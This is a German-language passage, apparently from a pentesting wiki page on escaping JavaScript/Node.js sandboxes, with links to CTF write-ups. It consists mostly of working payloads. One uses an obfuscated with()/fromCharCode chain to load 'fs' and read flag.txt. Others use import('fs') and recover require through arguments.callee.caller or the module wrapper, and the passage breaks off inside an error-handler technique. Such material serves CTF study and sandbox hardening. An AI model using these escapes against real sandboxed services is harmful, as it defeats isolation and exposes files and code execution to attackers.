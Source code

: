 ```javascript

//Final solution
with(
/with(String)
with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)
with(require(k))
return(String(readFileSync(n)))
/)
with(this)
with(constructor)
constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```
Wenn **alles undefiniert ist**, bevor untrusted code ausgeführt wird (wie in [**diesem Bericht**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/#miscx2fundefined55-solves)), ist es möglich, nützliche Objekte "aus dem Nichts" zu generieren, um die Ausführung beliebigen untrusted codes auszunutzen:

* Verwendung von import()
```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then(m=>console.log(m.readFileSync("/flag.txt", "utf8")))
```
* Indirektes Zugreifen auf `require`

[Nach diesem](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) werden Module von Node.js innerhalb einer Funktion eingekapselt, so wie folgt:
```javascript
(function (exports, require, module, __filename, __dirname) {
// our actual module code
});
```
Daher, wenn wir aus diesem Modul **eine andere Funktion aufrufen** können, ist es möglich, `arguments.callee.caller.arguments[1]` aus dieser Funktion zu verwenden, um auf **`require`** zuzugreifen:

{% code overflow="wrap" %}
```javascript
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt", "utf8")})()
```
{% endcode %}

Auf ähnliche Weise wie im vorherigen Beispiel ist es möglich, **Fehlerbehandler** zu verwenden, um auf den **Wrapper** des Moduls zuzugreifen und die **`require`**-Funktion zu erhalten:
```javascript
try {
null.f()
} catch (e) {
TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
const oldStackTrace = Error.prepareStackTrace
try {
Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
Error.captureStackTrace(this)
this.stack
} finally {
Error.prepareStackTrace = oldStackTrace
}
}
```